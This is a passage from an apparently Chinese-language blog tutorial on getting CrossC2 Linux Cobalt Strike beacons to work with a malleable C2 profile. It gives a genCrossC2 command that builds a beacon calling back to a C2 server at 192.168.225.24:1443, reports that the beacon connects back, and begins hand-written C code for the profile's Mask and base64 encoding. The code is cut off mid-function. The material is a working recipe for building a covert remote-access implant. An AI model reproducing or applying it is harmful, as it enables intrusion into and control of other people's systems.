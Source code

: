 
指定.so文件生成Beacon文件

    
    
    ./genCrossC2.MacOS 192.168.225.24 1443 .cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 ./test  
    

运行上线，此时在带C2-Profile的情况下能正常上线CrossC2的Beacon。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100048.png)

## 实现方式2  

在不去掉C2-Profile中的Mask编码，需要自己实现Mask的编码和解码逻辑方式如下。

非专业写c全靠临时百度硬编出来的，轻点喷。

    
    
    #include <stdio.h>  
    #include <stdlib.h>  
    #include <string.h>  
    #include <unistd.h>  
    #include <time.h>  
      
    static const char *BASE64_STR_CODE = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";  
    static const short BASE64_INT_CODE[] = {-1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,  
                                            -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1, -1,  
                                            -1, -1, -1, 62, -1, -1, -1, 63, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, -1, -1,  
                                            -1, -1, -1, -1, -1, 0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16,  
                                            17, 18, 19, 20, 21, 22, 23, 24, 25, -1, -1, -1, -1, -1, -1, 26, 27, 28, 29, 30,  
                                            31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50,  
                                            51};  
    static const short BASE64_INT_LENGTH = sizeof(BASE64_INT_CODE) / sizeof(BASE64_INT_CODE[0]);  
      
    void base64_decode_to_ascii(char *base64Str, long res[]) {  
        int i = 0;  
        int j = 0;  
        int v1 = 0;  
        int v2 = 0;  
        int v3 = 0;  
        int base64StrLength = strlen(base64Str);  
      
        for (i = 0; i < base64StrLength; ++i) {  
            char ascii = base64Str[i];  
            if (ascii == 0x20 | ascii == '\n' | ascii == '\t') {  
                break;  
            } else {  
                if (ascii == '=') {  
                    ++v3;  
                    v1 <<= 6;  
                    ++v2;  
                    switch (v2) {  
                        case 1:  
                        case 2:  
                            return;  
                        case 3:  
                            break;  
                        case 4:  
                            res[j++] = (char) (v1 >> 16);  
                            if (v3 == 1) {  
                                res[j++] = (char) (v1 >> 8);  
                            }  
                            break;  
                        case 5:  